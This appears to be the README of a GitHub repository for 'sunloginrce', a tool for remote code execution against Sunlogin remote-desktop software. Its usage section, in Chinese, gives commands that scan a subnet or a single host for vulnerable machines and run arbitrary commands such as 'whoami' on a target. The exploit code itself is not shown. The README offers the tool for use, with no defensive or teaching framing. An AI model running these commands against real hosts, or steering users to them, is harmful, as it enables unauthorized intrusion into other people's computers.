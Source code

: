 # sunloginrce
## 使用说明
#### python3 sunloginrce.py -s 192.168.10.0/24
#### python3 sunloginrce.py -s 192.168.10.20
#### python3 sunloginrce.py -i 192.168.10.20 -c "whoami"
![Image text](https://raw.githubusercontent.com/heise5yuetian/sunloginrce/main/20220228101801.jpg)
